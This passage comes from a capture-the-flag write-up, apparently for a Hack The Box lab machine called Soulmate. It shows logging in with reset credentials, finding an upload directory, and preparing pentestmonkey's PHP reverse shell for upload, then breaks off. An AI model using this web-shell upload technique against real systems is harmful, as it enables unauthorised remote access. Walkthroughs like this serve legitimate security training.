 **After saving, I returned to the [home page](http://ftp.soulmate.htb/):**
Then, logged out and proceeded to login using the new credentials:
>[!IMPORTANT]
>ben:123456

![](<./attachments/Soulmate-8.png>)
### Reverse Shell
After logging in as **ben**, explored the available directories:

- `/IT/` – Information Technology files
- `/ben/` – User-specific directory
- `/webProd/` – Web production directory (target for file upload)

![](<./attachments/Soulmate-9.png>)navigated to the web production directory:[http://ftp.soulmate.htb/#/webProd/](http://ftp.soulmate.htb/#/webProd/)

There was an **Upload** option available. Grabbed a PHP reverse shell:
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git  
cd php-reverse-shell
```

Made a copy of the reverse shell script:
```bash
cp php-reverse-shell.php shell.php
vim shell.php
```
